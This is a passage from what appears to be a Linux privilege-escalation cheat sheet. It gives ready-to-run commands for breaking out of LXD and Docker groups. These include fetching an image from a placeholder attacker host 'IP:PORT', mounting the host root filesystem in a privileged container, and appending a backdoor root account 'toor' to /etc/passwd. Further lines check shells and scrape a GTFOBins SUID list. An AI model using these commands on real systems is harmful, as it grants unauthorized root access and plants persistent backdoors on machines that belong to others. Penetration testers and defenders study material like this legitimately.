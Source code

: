 ```bash
wget http://IP:PORT/rootfs.squashfs
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine # Import an image using the META file (lxd.tar.xz) and ROOTFS file (rootfs.squashfs)
lxc init alpine thomasd -c security.privileged=true # Create a container called thomasd from images alpline and give a configuration parameter to run the instance in privileged mode
lxc list # Verify that the container thomasd exist
lxc config device add thomasd host-root disk source=/ path=/mnt/root recursive=true # Add an extra device which mount "/" within the instance to the "thomasd" container  
lxc start thomasd # Run the container thomasd
lxc exec thomasd /bin/sh
#[System]:~# cd /mnt/root #Here is where the filesystem is mounted
```

##### Docker group

Mount the filesystem in a bash container, allowing you to edit the /etc/passwd as root, then add a backdoor account toor:password.

```bash
docker run -it --rm -v $PWD:/mnt bash
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

[rootplease](https://hub.docker.com/r/chrisfosterelli/rootplease/) is a docker image that allows you to become root on unsecure machines

```bash
docker run -v /:/hostOS -it --rm chrisfosterelli/rootplease
```

###### Mount technique

```bash
# Mount the file
docker run -it --rm -v /:/mnt bash
# Add a backdoor account toor:password.
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

#### Sudo --shell

The **/etc/shells** is a Linux / UNIX text file which contains the full pathnames of valid login shells.

```bash
su -h # Check if we can run another shell if /etc/shells allows it
cat /etc/shells
```

#### SUID & SGID

```bash
curl https://github.com/GTFOBins/GTFOBins.github.io/tree/master/_gtfobins 2>/dev/null | grep 'href="/GTFOBins/' | grep '.md">' | awk -F 'title="' '{print $2}' | cut -d '"' -f1 | cut -d "." -f1 | sed  -e 's,^,|,' | tr '\n' ' ' | tr -d "[:blank:]" #  GTFOBins.txt
```
